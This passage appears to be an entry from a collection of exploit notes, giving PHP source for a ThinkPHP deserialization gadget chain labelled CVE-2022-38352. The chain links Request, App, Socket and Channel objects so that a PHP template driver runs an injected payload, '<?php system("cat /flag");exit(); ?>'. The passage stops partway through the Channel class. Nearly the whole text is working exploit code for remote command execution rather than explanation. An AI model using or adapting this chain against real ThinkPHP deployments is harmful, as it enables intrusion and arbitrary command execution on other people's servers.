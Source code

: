 ### 反序列化-PHP-011
> Thinkphp CVE-2022-38352
```php
<?php
namespace think\view\driver;
class Php
{
}

namespace think;
class App {
    protected $instances = [];

    public function __construct()
    {
        $this->instances = [
            "think\Request"=>new Request(),
        ];

    }
}
class Request {
    protected $url;

    public function __construct()
    {
        $this->url = '<?php system("cat /flag");exit(); ?>';
    }
}


namespace think\log\driver;
use think\App;
use think\view\driver\Php;

class Socket {
    protected $config;
    protected $app;
    protected $clientArg;
    public function __construct()
    {
        $this->config = [
            "force_client_ids" => true,
            "allow_client_ids"=> [],
            "debug" => true,
            "format_head"=> [new Php(),"display"]
        ];
        $this->app = new App();
        $this->clientArg = ["tabid"=>"1"];
    }
}


namespace think\log;
use think\log\driver\Socket;

class Channel {
    protected $logger;
    protected $lazy = false;
    public function __construct()
    {
        $this->lazy = false;
        $this->logger = new Socket();
```